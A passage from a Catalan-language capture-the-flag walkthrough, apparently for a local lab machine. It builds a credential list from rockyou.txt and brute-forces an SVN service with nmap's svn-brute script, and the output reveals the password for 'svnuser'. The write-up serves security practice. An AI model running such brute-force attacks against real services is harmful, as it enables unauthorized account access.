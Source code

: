 Bé, vam descobrir un repositori però és privat, intentem utilitzar l'usuari que vam trobar a `/upload`.

Intentem iniciar sessió amb un usuari diferent `test` i amb `svnuser`.

![Alt text](/assets/subversion/image-1.png)

Podem observar que l'usuari `svnuser` sembla que pertany a aquest servei, tot i que pel nom ja ho imaginàvem.

## Força bruta SVN

Nmap té un script per realitzar força bruta en serveis SVN.

https://nmap.org/nsedoc/scripts/svn-brute.html

Creem una llista d'usuaris i contrasenyes amb el format que necessita l'script a partir de `rockyou.txt` utilitzant `sed`.

```bash
$ sed 's/^/svnuser\//' /usr/share/wordlists/rockyou.txt > svnuser_rockyou.txt

$ head svnuser_rockyou.txt                             
svnuser/123456
svnuser/12345
svnuser/123456789
svnuser/password
svnuser/iloveyou
svnuser/princess
svnuser/1234567
svnuser/rockyou
svnuser/12345678
svnuser/abc123
```

Executem `nmap` amb la nostra llista de credencials i trobem les de l'usuari `svnuser`.

```bash
$ nmap --script svn-brute --script-args svn-brute.repo=/subversion/,brute.credfile=./svnuser_rockyou.txt -p 3690 172.17.0.2 --min-rate 5000 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).

PORT     STATE SERVICE
3690/tcp open  svn
| svn-brute: 
|   Accounts: 
|     svnuser:iloveyou! - Valid credentials
|_  Statistics: Performed 995 guesses in 46 seconds, average tps: 21.8

Nmap done: 1 IP address (1 host up) scanned in 49.63 seconds
```

## Repositori SVN  
